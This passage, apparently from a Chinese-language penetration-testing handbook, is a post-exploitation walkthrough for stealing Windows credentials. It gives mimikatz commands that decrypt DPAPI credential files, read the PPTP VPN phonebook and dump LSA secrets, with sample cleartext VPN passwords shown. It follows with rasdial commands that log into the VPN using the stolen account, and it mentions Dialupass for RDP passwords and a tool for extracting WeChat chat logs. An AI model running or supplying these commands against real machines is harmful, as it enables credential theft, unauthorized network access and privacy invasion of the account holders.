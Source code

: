 通过密钥解密得到密码。

```plaintext
.\mimikatz.exe "privilege::debug" "dpapi::cred /in:C:\Users\<UserName>\AppData\Local\Microsoft\Credentials\<CredentialFileName> /masterkey:<MasterKey>" "exit"
```

得到用户名和密码：

-   UserName
-   CredentialBlob

Dialupass.exe 也可以导出 RDP 密码。

##### PPTP

1.具体获取配置文件信息

```plaintext
type %APPDATA%\Microsoft\Network\Connections\Pbk\rasphone.pbk
```

其中 DEVICE 是配置文件名称，PhoneNumber 是服务器 IP。

2.获取密码

```plaintext
mimikatz.exe privilege::debug token::elevate lsadump::secrets exit
```

cur/text 就是账户，但是不知道为啥格式乱了，这里我设置的账户是 admin/admin123，老账户是 admin/admin。

```plaintext
cur/text: 2585290616083adminadmin1230
old/text: 2585290616083adminadmin0
```

3.尝试连接到 VPN

第一个参数 VPN 是前面读取配置文件中的 DEVICE 值，后面两个是用户名和密码。连接要注意的是你登录成功别人会掉线。

```plaintext
rasdial "VPN" vpnlogin ad
```

断开连接。

```plaintext
rasphone -h "VPN"
```

##### 键盘记录⚒️

Keylogger

pass

##### 社交软件聊天记录

微信 [https://github.com/xaoyaoo/PyWxDump](https://github.com/xaoyaoo/PyWxDump)

钉钉
